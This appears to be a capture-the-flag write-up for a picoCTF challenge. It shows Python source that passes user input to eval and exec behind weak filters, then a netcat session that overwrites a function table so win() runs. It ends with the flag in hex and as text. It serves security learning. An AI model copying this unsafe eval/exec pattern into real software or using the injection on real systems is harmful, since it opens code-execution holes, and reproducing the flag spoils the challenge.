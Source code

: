 After downloading the source code, paying attention to the following codes

+ The following lines assume that the ```func_table``` has its own format - the combination four 32-length padded strings
```python
FUNC_TABLE_SIZE = 4
FUNC_TABLE_ENTRY_SIZE = 32
CORRUPT_MESSAGE = 'Table corrupted. Try entering \'reset\' to fix it'

func_table = ''


def reset_table():
    global func_table

    # This table is formatted for easier viewing, but it is really one line
    func_table = '''print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''


def check_table():
    global func_table

    if (len(func_table) != FUNC_TABLE_ENTRY_SIZE * FUNC_TABLE_SIZE):
        return False

    return True
```
+ This assumes the running of ```read_variable()``` and ```write_variable()```, we will use them to set a new value for ```func_table``` (including the ```win()```function)
```python
def filter_var_name(var_name):
    r = re.search('^[a-zA-Z_][a-zA-Z_0-9]*$', var_name)
    if r:
        return True
    else:
        return False


def read_variable():
    var_name = input('Please enter variable name to read: ')
    if (filter_var_name(var_name)):
        eval('print(' + var_name + ')')
    else:
        print('Illegal variable name')


def filter_value(value):
    if ';' in value or '(' in value or ')' in value:
        return False
    else:
        return True


def write_variable():
    var_name = input('Please enter variable name to write: ')
    if (filter_var_name(var_name)):
        value = input('Please enter new value of variable: ')
        if (filter_value(value)):
            exec('global ' + var_name + '; ' + var_name + ' = ' + value)
        else:
            print('Illegal value')
    else:
        print('Illegal variable name')
```
+ This is function printing the flag in hex format
```python
def win():
    # This line will not work locally unless you create your own 'flag.txt' in
    #   the same directory as this script
    flag = open('flag.txt', 'r').read()
    # flag = flag[:-1]
    flag = flag.strip()
    str_flag = ''
    for c in flag:
        str_flag += str(hex(ord(c))) + ' '
    print(str_flag)
```
Solving
```commandline
──(stupidhacker㉿kali)-[~]
└─$ nc saturn.picoctf.net 57891
==> help

This program fixes vulnerabilities in its predecessor by limiting what
functions can be called to a table of predefined functions. This still puts
the user in charge, but prevents them from calling undesirable subroutines.

* Enter 'quit' to quit the program.
* Enter 'help' for this text.
* Enter 'reset' to reset the table.
* Enter '1' to execute the first function in the table.
* Enter '2' to execute the second function in the table.
* Enter '3' to execute the third function in the table.
* Enter '4' to execute the fourth function in the table.

Here's the current table:
  
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
==> 2
Please enter variable name to read: func_table
print_table                     read_variable                   write_variable                  getRandomNumber                 
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "print_table                     read_variable                   write_variable                  win                             "
==> 1
1: print_table
2: read_variable
3: write_variable
4: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x63 0x32 0x30 0x66 0x35 0x32 0x32 0x32 0x7d 
```
The hex-formatted flag: ```0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x63 0x32 0x30 0x66 0x35 0x32 0x32 0x32 0x7d```
The flag: ```picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_c20f5222}```
